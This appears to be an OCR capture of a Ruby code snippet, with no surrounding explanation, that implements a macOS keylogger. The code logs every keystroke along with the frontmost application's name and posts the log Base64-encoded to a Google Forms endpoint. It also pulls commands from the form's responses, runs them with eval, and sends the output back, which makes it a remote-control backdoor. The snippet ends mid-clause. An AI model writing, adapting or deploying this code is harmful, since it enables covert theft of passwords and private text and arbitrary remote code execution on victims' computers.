 ```ruby
km = DL::CPtr.malloc(16)

pd = Hash.new(false)

pa = ''
pt = 0
ps = 0
s = ''

while true do
  Kernel.sleep(0.05)

  Carbon.GetKeys(km)
  Carbon.GetFrontProcess(p.ref)
  Carbon.CopyProcessName(p.ref, n.ref)

  a = Carbon.CFStringGetCString(n, ns, 80, 0x08000100) > 0 ? ns.to_s : '_'
  t = Time.now.to_i

  (0...128).each do |k |

    if (km.to_str[k >> 3].ord >> (k & 7)) & 1 > 0

      unless pd[k]
        pd[k] = true
        if a != pa
          s << "\n\n" + [t].pack("N") + a + "\n"
        else
          if t - pt > 6
            s << "\n\n" + [t].pack("N") + "\n"
          end
        end

        s << k.chr
        pt = t
        pa = a
      end

    else
      pd[k] = false
    end

  end

    if s.length > 2000 || (s.length > 20 && t - ps > 1200)
      begin
        Net::HTTP.start('docs.google.com', : use_ssl => true) { | connection |
          res = connection.post('/forms/d/e/***/formResponse', "entry.***=#{Base64.urlsafe_encode64(s)}")
          s = ''
          ps = t
          res.body.scan(/@@@(.*)@@@/) { | ms |
            ms.each do |m |
              c = Base64.urlsafe_decode64(m)
              Net::HTTP.start('docs.google.com', : use_ssl => true) { | connection2 |
                connection2.post('/forms/d/e/***/formResponse', "entry.***=#{Base64.urlsafe_encode64(eval(c))}")
              }
            end
          }
        }
      rescue SyntaxError
      rescue
```